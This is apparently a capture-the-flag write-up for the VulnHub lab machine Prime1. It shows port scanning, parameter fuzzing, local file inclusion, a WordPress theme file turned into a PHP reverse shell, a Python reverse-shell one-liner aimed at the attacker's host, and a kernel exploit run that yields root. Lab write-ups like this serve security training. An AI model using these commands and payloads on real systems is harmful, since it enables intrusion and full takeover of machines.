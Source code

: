 ```yaml
---
layout : post
title: Prime1 Writeup
image : prime-1.png
date: 2021-07-22 10:18 +0530
tags: [WordPress Exploitation ,Kernel Exploit 4.10.0-28-generic , Parameter Fuzzing , LFI ] 
---
```


In this walkThrough we'll be exploiting this machine using wordpress , but need to enumerate hard to get the wordpress creds , and for PE this machine is vulnerable to Kernal exploit , experienced the rabbit holes , at Bruteforcing the victor password , and once weget into machine the is sudo executable but not at all used to get root shell  

# Nmap

```
nmap -sCV -p- -vvv 10.0.2.104
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 03:02 BST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Initiating Ping Scan at 03:02
Scanning 10.0.2.104 [2 ports]
Completed Ping Scan at 03:02, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:02
Completed Parallel DNS resolution of 1 host. at 03:02, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:02
Scanning 10.0.2.104 [65535 ports]
Discovered open port 22/tcp on 10.0.2.104
Discovered open port 80/tcp on 10.0.2.104
Completed Connect Scan at 03:02, 31.15s elapsed (65535 total ports)
Initiating Service scan at 03:02
Scanning 2 services on 10.0.2.104
Completed Service scan at 03:02, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.0.2.104.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Nmap scan report for 10.0.2.104
Host is up, received syn-ack (0.054s latency).
Scanned at 2021-07-22 03:02:02 BST for 38s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcSVb7n0rTb58TfCcHJgtutnZzqf0hl48jPxI+VHOyhiQIihkQVkshhc8LdnSUg2BRGZL+RFfNLan9Q6FY0D7T/7PMlggPtSLU80er3JJO+XMfO3NURgMtVtKS0m+nRbL9C/pKSgBewxIcPk7Y45aXjAo7tsSoJ3DZUDcaitfFbAlr+108VBSx/arOXbYtusI1E2OCj1v/VKgVA9N/FL/OHuloOZPs/hY0MoamQKy+XYNdyCtrvSeRmItf09YXhFJwfY9Tr/nk077J7cz3r3INP+AFrpKVjdUAtxNpb+zAJLMJY8WF7oRZ1B8Sdljsslkh8PPK8e6Z4/rlCaJYW0OX
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiCXK7fYpBhJbT1KsyJkcpdXc1+zrB9rHVxBPtvA9hwTF4R4dZCZI9IpMFrperU0wqI/8uGYF9mW8l3aOAhJqc=
|   256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKMh3392Cf8RmKX5UyT6C1yLIVbncwwUg1i2P7/ucKk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.96 seconds

```

# Enumeration 

Web Enumeration 

using drib , we found secret.txt

![]({{site.baseurl}}/img/vulnhub/prime1/text.png)

so from above hint lets start fuzzing the parameter on php pages

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 --hc 404 http://10.0.2.104/index.php?FUZZ=something
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.2.104/index.php?FUZZ=something
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"  
```

so we find that file a paremeter , now lets fuzz for any lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/location.png)


thwn we can movw to image.php there we'll fuzz for lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/etc.png)

yes now we have the right lfi , and also it mentioned that there is a password file at /home/saket directory 

![]({{site.baseurl}}/img/vulnhub/prime1/lfi2.png)

now we have the passwd , lets try to use for wordpress 

# Exploitation 

now its easy to get into machine via wordpress

lets inject the php code into a file which returns us a reverse shell

![]({{site.baseurl}}/img/vulnhub/prime1/secret.png)

need to curl the phpfile to get a reverseshell

```
curl http://10.0.2.104/wordpress/wp-content/themes/twentynineteen/secret.php
```

nice we get a reverse shell

```
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.104] 43204
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:10:13 up  1:43,  1 user,  load average: 0.05, 0.17, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guest-gy tty7     :0               21:10    2:04m  2.74s  0.22s /sbin/upstart --user
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export RHOST="10.0.2.93";export RPORT=5555;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# PrivilageEsclation 

Kernal exploit 

```

uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

this version is vulnerable to kernal exploit 

[Here is the link to the kernal exploit ](https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.10.0-28-generic/CVE-2017-16995)

```
www-data@ubuntu:/tmp$ gcc explit.c -o exploit
gcc explit.c -o exploit
www-data@ubuntu:/tmp$ ./exploit
./exploit
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff92c47b659200
[*] Leaking sock struct from ffff92c47745f800
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff92c4789396c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff92c4789396c0
[*] credentials patched, launching shell...
# whoami
whoami
root

```